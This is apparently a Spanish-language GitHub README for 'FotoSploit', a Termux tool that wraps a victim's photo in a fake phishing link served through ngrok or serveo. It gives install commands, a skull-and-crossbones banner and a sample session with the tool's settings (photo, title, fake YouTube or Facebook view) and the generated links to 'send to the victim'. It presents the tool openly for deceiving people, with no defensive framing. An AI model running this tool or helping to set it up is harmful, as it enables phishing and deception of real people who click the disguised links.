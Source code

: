 # FotoSploit
    FotoSploit es un exploit que ensambla la foto
    de nuestra víctima en un enlace falso {phishing}
# Banner FotoSploit 
![Screenshot_20191202-134419_Termux~01](https://user-images.githubusercontent.com/46208706/69989850-269e8280-150a-11ea-8ebc-7a585e17ade4.jpg)
# Installation 
    pkg update && pkg upgrade -y
    pkg install -y php
    pkg install -y python2
    pkg install -y git
    git clone https://github.com/Cesar-Hack-Gray/FotoSploit 
    cd FotoSploit
    ls
    bash install.sh 
    ./FotoSploit 
    
# Screenhost
![e](https://user-images.githubusercontent.com/46208706/69989984-70876880-150a-11ea-96ef-efe7a91f54f0.jpg)
# Eye!!!
     El link portador por serveo o ngrok les informo que
     en messenger [facebook] no saca la foto de la víctima:(
     el link solo saca la foto en Whatzapp o en telegram u otro chat
     ok!
# Usage
    
   _____________________________________________________________________
            ___           _,.---,---.,_
            |         ,;~'             '~;,
            |       ,;                     ;,
   Frontal  |      ;                        ; ,--- Supraorbital Foramen
    Bone    |     ,'                        /'
            |    ,;                       /' ;,
            |    ; ;      .          . <-'  ; |
            |__  | ;   ______       ______   ;<----- Coronal Suture
           ___   |  '/~ ~ . ~ ~\'  |
           |     |  ~  ,-~~~^~, | ,~^~~~-,  ~  |
 Maxilla,  |      |   |        }:{        | <------ Orbit
Nasal and  |      |   l       / | \       !   |
Zygomatic  |      .~  (__,.-- .^. --.,__)  ~.
  Bones    |      |    ----;' / | \  ;-<--------- Infraorbital Foramen
           |__     \__.       \/^\/       .__
              ___   V| \                 / |V <--- Mastoid Process
              |      | |T~\___!___!___/~T| |
              |      | | IIII_I_I_I_IIII | |
     Mandible |      |  \ III I I I III,/  |
              |       \    ~~~~~~~~~~
              |         \   .       . <-x---- Mental Foramen
              |__         \.    ^    .
                            ^~~~^~~~^
  _________________________________________________________________
                    Created by @CesarHackGray
                      Usage: show options

FotoSploit> show options

 ===============
 Cesar Hack Gray
 ===============

   Comandos          descripsion

   show options      opciones
   set foto          [option]
   set title url     [Titulo]
   set view          [FACEBOOK][YOUTUBE]
   GO                Comenzar
   run               Comenzar
   exit              Salir

   set title url Cesar-Hack-Gray (example)
   set foto [youtube] [FreeFire] [PUBG]
   [Anime] [pornografia] [Bokep] [facebook]
   [/sdcard/example.jpg]


   SET FOTO :
   SET VIEW :
   SET TITLE URL :

FotoSploit> set foto /sdcard/foto.jpg
[+] FOTO => /sdcard/foto.jpg
FotoSploit> set title url Name-Victim
[+] Name => Name-Victim
FotoSploit> set view YOUTUBE
[+] VISTA => www.youtube.com
FotoSploit> GO
[+] Uploading -> /sdcard/foto.jpg...
[+] Abriendo servidores...
[+] Abriendo servidor php...
[+] Abriendo servidor ssh...
[+] Abriendo servidor ngrok..
[+] Descargando ngrok full....
[+] Obteniendo URLs..
[+] Servicio de ayuda = https://t.me/CesarGray
[+] Envia ala victima = http://localhost:5756
[+] Envia ala victima = https://1d16900a.ngrok.io
[+] Interactuando ala victima...


  
           
              
              
              
     
 
              
                      
  
 
 

   

   
   
   
   
   
   

   







